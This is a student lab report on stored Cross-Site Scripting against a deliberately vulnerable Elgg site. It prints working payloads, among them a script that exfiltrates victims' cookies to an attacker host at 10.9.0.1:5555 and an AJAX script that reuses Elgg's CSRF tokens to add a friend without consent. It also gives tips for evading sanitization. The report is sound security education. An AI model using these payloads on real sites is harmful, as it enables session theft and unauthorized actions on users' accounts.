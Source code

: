 # Cross-Site Scripting Attack Lab (Elgg)

# Introduction

This report explores the exploitation of Cross-Site Scripting (XSS) vulnerabilities through a simulated attack on a modified Elgg social networking application. Elgg, a widely-used open-source platform, has been intentionally configured without XSS countermeasures for the purposes of this lab, making it vulnerable to JavaScript injection. By injecting malicious code, attackers can perform actions on behalf of other users, such as stealing session cookies or altering site content—highlighting the risks posed by XSS vulnerabilities.

## Question 1

### Task 1

In this task we want to embed JavaScript directly within the Elgg profile fields to trigger an alert window, demonstrating a basic XSS vulnerability. 

For this tasked we logged in as the user Alice.

<div align="center">
    <figure>
        <img src="images/logbook7/logbook7_1.png">
        <figcaption style="font-size: smaller">Figure 1: Alice's profile</figcaption>
    </figure>
</div>

We edited the user profile and added out JavaScript code to the profile to start the attack.

```js
<script>alert('XSS');</script>
```

<div align="center">
    <figure>
        <img src="images/logbook7/logbook7_2.png">
        <figcaption style="font-size: smaller">Figure 2: Adding the JavaScript code to Alice's profile</figcaption>
    </figure>
</div>

Now when another user opens Alice's profile an alert window with the "XSS" message will apear.

<div align="center">
    <figure>
        <img src="images/logbook7/logbook7_3.png">
        <figcaption style="font-size: smaller">Figure 3: Alert window with the "XSS" message</figcaption>
    </figure>
</div>

This attack verifies that Elgg’s input fields are vulnerable to script injection.

### Task 2

The objective of this task is to embed a JavaScript program in your Elgg profile, such that when another user views your profile, the user’s cookies will be displayed in the alert window. This can be done by adding some additional code to the JavaScript program in the previous task:

```js
<script>alert(document.cookie);</script>
```

<div align="center">
    <figure>
        <img src="images/logbook7/logbook7_4.png">
        <figcaption style="font-size: smaller">Figure 4: Adding another line of JavaScript code to Alice's profile</figcaption>
    </figure>
</div>

And now when another user enters Alice's profile the alert message will show with that user's cookies displayed.

<div align="center">
    <figure>
        <img src="images/logbook7/logbook7_5.png">
        <figcaption style="font-size: smaller">Figure 5: Alert window with the user's cookies displayed</figcaption>
    </figure>
</div>

In this task only the user can see its own cookies, not the attacker.

### Task 3 

Now we want, as the attacker, to be able to see the visiting user's cookies. So we need to find a way to send the cookies of the user to the attacker.
To do this we will again change our JavaScript code to send the cookies to the attacker.

This code creates an 'img' tag with the src attribute set to a URL that includes the cookies (document.cookie) as a parameter. The browser will attempt to load this img from the attacker’s machine (10.9.0.1), and in doing so, it will send the cookies in an HTTP GET request to http://10.9.0.1:5555.

```js
<script> 
    document.write('<img src="http://10.9.0.1:5555?c=' + escape(document.cookie) + '">');
</script>
```

<div align="center">
    <figure>
        <img src="images/logbook7/logbook7_6.png">
        <figcaption style="font-size: smaller">Figure 6: Changed JavaScript code in Alice's profile</figcaption>
    </figure>
</div>

Now when another user enters Alice's profile, instead of receiving a message with their own cookie, they will not be notified, but their cookie will be send to the attacker.

<div align="center">
    <figure>
        <img src="images/logbook7/logbook7_7.png">
        <figcaption style="font-size: smaller">Figure 7: Attackers view of the the user's cookie</figcaption>
    </figure>
</div>

<div align="center">
    <figure>
        <img src="images/logbook7/logbook7_8.png">
        <figcaption style="font-size: smaller">Figure 8: User's cookies</figcaption>
    </figure>
</div>

### Task 4 

In this task we want to make something more simmilar to the famous attack that Samy did to MySpace in 2005. We will write an XSS worm that adds Samy as a friend to any other user that visits Samy's profile, but this worm does not self-propagate.

To start, we used another account and with the help of "HTTP Header Live" Tool we want to find more information on the request to add a friend. 

<div align="center">
    <figure>
        <img src="images/logbook7/logbook7_9.png">
        <figcaption style="font-size: smaller">Figure 9: "HTTP Header Live" tool showing the request to add a friend</figcaption>
    </figure>
</div>

This is the full first line:
http://www.seed-server.com/action/friends/add?friend=59&__elgg_ts=1731600303&__elgg_token=eFNYGSxhJNN5Bit9ga_7_w&__elgg_ts=1731600303&__elgg_token=eFNYGSxhJNN5Bit9ga_7_w


In the first line, among other things, its writen "friend=59", so now we know that Samy's ID is 59.
Another thing we had to do was use the first line that we had obtain in the "HTTP Header Live" Tool to undestand the order of elements in the UML and then form the actual UML.

```js
<script type="text/javascript">
  window.onload = function () {
    var Ajax = null;
    var ts = "&__elgg_ts=" + elgg.security.token.__elgg_ts; // 1
    var token = "&__elgg_token=" + elgg.security.token.__elgg_token; //2

    // Construct the HTTP request to add Samy as a friend.
    var friendID = "59"; // Samy's ID
    var sendurl = "http://www.seed-server.com/action/friends/add?friend=" + friendID + ts + token;

    // Create and send an AJAX request to add the friend
    Ajax = new XMLHttpRequest();
    Ajax.open("GET", sendurl, true);
    Ajax.send();
  }
</script>
```
After adding this JavaScript code to Samy's profile, now we tested by opening Alice's profile and, without adding manually Samy as friend, we opened Samy's profile and then went to Alice's friends and we could then check that Samy was added to Alice's friend list without Alice doing so manually.

<div align="center">
    <figure>
        <img src="images/logbook7/logbook7_10.png">
        <figcaption style="font-size: smaller">Figure 10: Alice's friends</figcaption>
    </figure>
</div>

#### Task4: Question1

Explain the purpose of Lines 1 and 2,why are they needed?

```js
var ts = "&__elgg_ts=" + elgg.security.token.__elgg_ts; // Line 1
var token = "&__elgg_token=" + elgg.security.token.__elgg_token; // Line 2
```
Line 1 creates a string that adds a timestamp (__elgg_ts) to the URL. This timestamp is generated by the Elgg system to ensure that the request is coming from a valid user session. It prevents attackers from using the request without having an authenticated session or mimicking valid requests from other users.

Line 2 appends the security token (__elgg_token) to the URL. The token is another security feature used by Elgg to ensure that the request is legitimate. It prevents an attacker from sending arbitrary requests to perform actions like adding a friend, since the attacker would not have access to this token unless they were authenticated. 

These two lines are essential for ensuring that the HTTP request is legitimate and comes from an authenticated user. Without these, the request could be considered invalid by the server, preventing the attack from succeeding. Therefore, they are needed to bypass Elgg's CSRF protection mechanisms.

#### Task4: Question2: 

If the Elgg application only provided the Editor mode for the "About Me" field (i.e., you cannot switch to Text mode), can you still launch a successful attack?

Even with only "Editor mode" enabled for the "About Me" field, an XSS attack can still be successful, although with some limitations. While the Editor mode may implement sanitization to block certain JavaScript or HTML tags, like script, attackers can still bypass these protections. For instance, JavaScript can be injected using event-based attributes (like `onload` or `onclick`) within tags like `img` or `a`. Additionally, encoding characters as HTML entities or using non-standard JavaScript functions (e.g., `document.write()`) can sometimes bypass sanitization. Therefore, while Text mode makes injection easier, an attack is still possible in Editor mode if the sanitization is insufficient.

## Question 2

There are several types of XSS attacks (Reflected, Stored, or DOM). Which type(s) does this attack fall under and why?

The attack performed in this lab  is best classified as a Stored XSS attack. In this scenario, the malicious JavaScript is injected and stored in the "About Me" field of Samy's profile. Every time another user, like Bob, visits Samy's profile, the malicious code is executed making it a classic example of XSS. The injected script is persistently stored in the Elgg database, and it runs automatically when the page is loaded, which is characteristic of Stored XSS. 

Unlike Reflected XSS, which involves the malicious code being reflected off the server in response to a user request , this attack does not rely on tricking the victim into clicking a malicious link. 
Additionally, this attack is not an example of DOM-based XSS, as it does not depend on client-side manipulation of the page but rather on server-side storage. 
 